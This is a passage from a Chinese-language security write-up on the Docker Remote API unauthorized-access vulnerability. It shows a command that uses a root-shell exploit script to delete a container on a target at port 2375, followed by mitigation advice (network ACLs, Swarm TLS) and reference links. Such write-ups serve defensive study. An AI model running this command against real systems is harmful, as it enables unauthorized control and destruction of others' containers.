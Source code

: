 1. 删除容器：
```
py -2 dockerRemoteApiGetRootShell.py -h 172.26.1.97 -p 2375 -c -I a08a888cf9de10f4e5715f4fbf12b0c303b66c5929040cb2029d62b92cc68c4c
```
截图：
![图片](https://uploader.shimo.im/f/1h7CjsSpM30NmdMF.png!thumbnail)

1. 查看服务端api版本：

![图片](https://uploader.shimo.im/f/XNFJpUOOaDQl5CeQ.png!thumbnail)

# 漏洞修复：
1. 简单粗暴的方法，对2375端口做网络访问控制，如ACL控制，或者访问规则。
1. 修改docker swarm的认证方式，使用TLS认证：Overview Swarm with TLS 和 Configure Docker Swarm for TLS这两篇文档，说的是配置好TLS后，Docker CLI 在发送命令到docker daemon之前，会首先发送它的证书，如果证书是由daemon信任的CA所签名的，才可以继续执行。
# 参考链接：
[https://xz.aliyun.com/t/6103#toc-24](https://xz.aliyun.com/t/6103#toc-24)

[http://nsec.top/docker-remote-api-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE/](http://nsec.top/docker-remote-api-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE/)

[http://www.anquan.us/static/bugs/wooyun-2016-0209856.html](http://www.anquan.us/static/bugs/wooyun-2016-0209856.html)

[https://github.com/Tycx2ry/docker_api_vul](https://github.com/Tycx2ry/docker_api_vul)

